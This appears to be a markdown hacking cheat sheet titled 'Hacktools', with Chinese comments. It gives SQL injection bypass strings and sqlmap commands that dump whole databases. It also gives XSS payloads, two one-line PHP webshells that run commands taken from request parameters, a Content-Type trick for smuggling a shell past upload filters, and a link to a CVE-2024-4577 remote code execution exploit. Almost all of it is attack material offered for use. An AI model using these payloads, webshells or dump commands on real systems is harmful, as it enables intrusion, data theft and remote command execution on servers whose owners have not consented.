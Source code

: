 # Hacktools

# SQLI
## Easy command
'OR 1=1-- <br>
'OR '1'='1'--'

## Autotools
sqlmap -u "target-url" -p your-parament --random-agent --batch --dbs

```
sqlmap -u "URL" --dbs

# 獲取資料庫所有 table
sqlmap -u "URL" -D database --tables

# 獲取指定 table 之欄位
sqlmap -u "URL" -D database -T table --columns

# 獲取指定 table 之指定欄位資料
sqlmap -u "URL" -D database -T table -C field1,field2 --dump

# 獲取指定 table 之所有欄位資料(就不要-C而已)
sqlmap -u "URL" -D database -T table --dump

# 不指定table，直接獲取該指定DB所有資料
sqlmap -u "URL" -D database --dump-all
```
https://hackmd.io/@bttea/sqlmap_common_parameters

# XSS
```
<script>alert('XSS')</script> 
"><img src=x onerror=alert(1)>

# php file upload webshell
```
```
<?php system($_REQUEST["cmd"]);?> 
<?php echo shell_exec($_GET['cmd']);?> 
```
or <br>
將 Content-Type: application/x-php 換成 /image/jpeg


https://github.com/Kazusa613732/Hitmap-ver.1/blob/main/README.md

# CVE-2024-4577
https://github.com/gh-ost00/CVE-2024-4577-RCE
